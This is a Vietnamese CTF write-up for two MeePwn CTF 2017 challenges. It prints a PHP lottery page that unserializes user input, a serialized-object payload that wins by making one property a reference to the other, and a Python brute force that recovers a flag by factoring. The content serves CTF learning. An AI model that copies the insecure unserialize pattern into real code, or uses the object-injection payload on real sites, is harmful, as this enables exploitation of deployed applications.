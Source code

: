 ```yaml
---
layout: post
title:  "Meepwn CTF 2017 - Quick TSULOTT and |\\/|/-\\T|-| writeup"
date: 2017-07-27 11:08:19 +0700
categories: security, ctf
---
```


# TSULOTT

```
Who Wants to Be a Millionaire? Join My LOTT and Win JACKPOTTTT!!! Remote: 128.199.190.23:8001
```

Truy cập vào trang, ta thấy một trang web xổ số, tìm ra 6 cặp số đúng đẻ trúng cả tỉ đồng.

View source thấy có comment: `is_debug=1`, thử thêm tham số này ta nhận được source-code như sau:

```php
<body>
<style>
input[type=text] {
    width: 40%;
    padding: 12px 20px;
    margin: 8px 0;
    box-sizing: border-box;
    border: 2px solid red;
    background-color: #ebfff8;
    border-radius: 4px;
}
button[type=submit] {
    width: 10%;
    background-color: #F94848;
    color: white;
    padding: 14px 20px;
    margin: 8px 0;
    border: none;
    border-radius: 4px;
    cursor: pointer;
}
button[type=submit]:hover {
    background-color: #45a049;
}
body {
    background-image: url("money.jpg");
}
</style>
<?php
class Object
{
  var $jackpot;
  var $enter;
}
?>
<?php
include('secret.php');
if(isset($_GET['input']))  
{
  $obj = unserialize(base64_decode($_GET['input']));
  if($obj)
  {
    $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99);
    if($obj->enter === $obj->jackpot)
    {
      echo "<center><strong><font color='white'>CONGRATULATION! You Won JACKPOT PriZe !!! </font></strong></center>". "<br><center><strong><font color='white' size='20'>".$obj->jackpot."</font></strong></center>";
      echo "<br><center><strong><font color='green' size='25'>".$flag."</font></strong></center><br>";
      echo "<center><img src='http://www.relatably.com/m/img/cross-memes/5378589.jpg' /></center>";
    }
    else
    {
      echo "<br><br><center><strong><font color='white'>Wrong! True Six Numbers Are: </font></strong></center>". "<br><center><strong><font color='white' size='25'>".$obj->jackpot."</font></strong></center><br>";
    }
  }
  else
  {
    echo "<center><strong><font color='white'>- Something wrong, do not hack us please! -</font></strong></center>";
  }
}
else
{
  echo "";
}
?>
<center>
<br><h2><font color='yellow' size=8>-- TSU</font><font color='red' size=8>LOTT --</font></h2>
<p><p><font color='white'>Input your code to win jackpot!</font><p>
<form>
          <input type="text" name="input" /><p><p>
          <button type="submit" name="btn-submit" value="go">send</button>
</form>
</center>
<?php
if (isset($_GET['gen_code']) && !empty($_GET['gen_code']))
{
  $temp = new Object;
  $temp->enter=$_GET['gen_code'];
  $code=base64_encode(serialize($temp));
  echo '<center><font color=\'white\'>Here is your code, please use it to Lott: <strong>'.$code.'</strong></font></center>';
}
?>
<center>
<font color='white'>-----------------------------------------------------------------------------------------------------------------------------</font>
<h3><font color='white'>Take code</font></h3><p>
<p><font color='white'>Pick your six numbers (Ex: 15 02 94 11 88 76)</font><p>
<form>
      <input type="text" name="gen_code" maxlength="17" /><p><p>
      <button type="submit" name="btn-submit" value="go">send</button>
</form>
</center>
<?php
if(isset($_GET['is_debug']) && $_GET['is_debug']==='1')
{
   show_source(__FILE__);
}
?>
<!-- GET is_debug=1 -->
```

Nhiệm vụ là tạo ra 1 input sau khi được decode base64 và unserialize có thuộc tính `enter` và `jackpot` giống nhau là ok.
Vì ta có thể control toàn bộ object truyền vào nên điều đầu tiên nghĩ đến là tạo object mà enter sẽ reference đến jackpot, như vậy giá trị luôn bằng nhau:

```php
class Object
{
  var $jackpot;
  var $enter;

  function __construct() {
       $this->enter = &$this->jackpot;
   }
}
$input = new Object();
echo base64_encode(serialize($input));
```
submit ta có flag: `MeePwnCTF{__OMG!!!__Y0u_Are_Milli0naire_N0ww!!___}`

Cách khác ?: tạo object ko có cả `enter` lẫn `jackpot`, khi đó cả 2 đều null -> pass ?


# MATH

```
I hack your brain!

hack.py
```

```
from Crypto.Util.number import *
from hashlib import md5

flag = "XXX"
assert len(flag) == 14
pad = bytes_to_long(md5(flag).digest())

hack = 0

for char in flag:
	hack+= pad
	hack*= ord(char)

print hack
#hack = 64364485357060434848865708402537097493512746702748009007197338675
#flag_to_submit = "MeePwnCTF{" + flag + "}"
```

Nhận xét:

- `hack = pad * last_char * (1 + ...)`
- hack có thể factor được bằng factordb.com
- pad sẽ nằm trong khoảng từ min_md5 đến max_md5 và là tích của các factor của hack.

Ta sẽ brute force giá trị của hack, với mỗi giá trị đó sẽ tính được tiếp `last_char` (last_char có giá trị trong khoảng từ 32 đến 128 (printable)) cứ như vậy cho đến char đầu tiên.

Source code:

```python
# -*- coding=utf-8 -*-

from Crypto.Util.number import *
from hashlib import md5
from itertools import combinations

len_flag = 14
hack = 64364485357060434848865708402537097493512746702748009007197338675
#flag_to_submit = "MeePwnCTF{" + flag + "}"
"""
3^2 · 5^2 · 7 · 107 · 487 · 607 · 28429 · 29287 · 420577267963<12> · 3680317203978923<16> · 1002528655290265069<19>
"""
raw_input()

def get_all_candidate(hack):
    # print hack
    return [chr(i) for i in range(32, 129) if hack % i == 0]

def backtrack(i, h, p, ans, deep):
    # print "="*deep, i, h, ans
    if h < 0:
        return False
    if len(ans) > len_flag:
        return False
    if h / ord(i) == p and p == bytes_to_long(md5(ans[::-1]).digest()):
        print ans[::-1]
        raw_input()
        return True
    candidate = get_all_candidate(h/ord(i) - p)
    # print "="*deep, candidate
    if not candidate:
        return False
    else:
        done = False
        for j in candidate:
            if not backtrack(j, h/ord(i) - p, p, ans + j, deep + 1):
                # print "="*deep, "Failed", j
                pass
            else:
                done = True

        return done

cs = [3, 3, 5, 5, 7, 107, 487, 607, 28429, 29287, 420577267963, 3680317203978923, 1002528655290265069]
for r in range(1, 14):
    for factors in combinations(cs, r):
        pad = 1
        for f in factors:
            pad *= f
        if pad > 340282366920938457608348813069405954094 or pad < 3922569271515906540887:
            continue
        print factors

        for k in get_all_candidate(hack):
            print "------------->"
            backtrack(k, hack, pad, k, 1)
            # raw_input()
```

Chạyy 1 lúc thì ra pad là tích của 6 factor và flag là `d0y0ul1keM@TH?`

Submit: `MeePwnCTF{d0y0ul1keM@TH?}`
